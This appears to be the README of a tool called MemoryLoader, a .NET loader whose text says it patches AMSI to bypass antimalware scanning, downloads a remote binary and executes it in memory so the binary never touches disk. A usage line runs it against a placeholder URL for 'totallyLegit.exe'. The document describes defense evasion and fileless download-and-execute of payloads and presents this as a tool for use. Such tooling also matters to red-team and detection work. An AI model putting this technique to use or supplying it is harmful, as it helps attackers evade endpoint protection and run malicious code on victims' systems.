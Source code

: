 # MemoryLoader

A .NET binary loader that bypasses AMSI checks. It will patch AMSI, download a remote binary, and execute it in memory without the binary ever hitting disk.

Usage:

`./MemoryLoader.exe [URL_TO_PAYLOAD]`

Example:
`./MemoryLoader.exe http://example.com/totallyLegit.exe`
